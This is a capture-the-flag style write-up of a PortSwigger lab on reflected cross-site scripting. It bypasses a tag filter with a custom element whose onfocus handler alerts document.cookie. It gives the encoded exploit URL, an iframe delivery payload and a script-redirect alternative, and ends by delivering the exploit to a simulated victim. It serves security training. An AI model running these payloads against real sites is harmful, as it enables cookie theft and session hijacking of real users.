 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/4233f5ba-fe26-48f2-acf5-8486eea975dd)

## Solution :

 We need create a custom tag and automatically alerts document.cookie.

 > `onfocus`event , `tabindex` and `id` will work with any costom tag.

will try to create the pay load using this.

```html
<cyber tabindex="1"onfocus="alert(document.cookie)"id="a1">
```
>`<cyber>`: This is a made-up element, not a regular one like `<div>` or `<p>`.

>`tabindex="1"`: This makes it so when you press the `"Tab"` key to move around a webpage, this element is the first one to be highlighted.

>`onfocus="alert(document.cookie)"`: When you click or tab to this element, it shows a pop-up box.

>`id="a1"`: It's like a name for this element so that you can refer to it later in your code.

>In short, this custom element (<cyber>) grabs your attention first, and if you interact with it, it could potentially show your browser's cookies in a pop-up message when we are trying to acces the id.

For this first we will give this Payload to web application.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/4db553c8-a18f-470f-ad13-fef1d2d68d42)

Result-Payload incerted in web application.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/56151f67-373f-4b2b-ab2f-f380755b52e9)

For triger the alert we need type the `id` in the url using `#a1`.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/b885855c-ae80-4927-8f27-38229a84bb60)

it will triger an alert-

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/01531067-719e-4c9d-b89b-b50d0d9b7882)

we need to automatically alerts document.cookie.For that our exploit url is ready.
`https://0a2c00b404ee683f8480054f00b50038.web-security-academy.net/?search=%3Ccyber+tabindex%3D%221%22onfocus%3D%22alert(document.cookie)%22id%3D%22a1%22%3E#a1`. we need to send it inside `iframe`

Payload will be like 

```html
<iframe src="exploit url"></iframe>
```

Now go to exploit server and give the Payload.

## Payload.

```html
<iframe src="https://0a2c00b404ee683f8480054f00b50038.web-security-academy.net/?search=%3Ccyber+tabindex%3D%221%22onfocus%3D%22alert(document.cookie)%22id%3D%22a1%22%3E#a1"></iframe>
```

## alternative Payload

```html
<script>
location ='https://0a2c00b404ee683f8480054f00b50038.web-security-academy.net/?search=%3Ccyber+tabindex%3D%221%22onfocus%3D%22alert(document.cookie)%22id%3D%22a1%22%3E#a1'
</script>
```
![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/8a0b7f4c-a333-4d8f-bf27-94900355c423)

Then View exploit.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/bcbed228-4c23-42ab-ac66-33c7bf65fe95)

Then press DELIVER it to VICTIM. lab will be solved.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/ec505fb7-615d-4af6-bfcf-f76f4d87be5d)
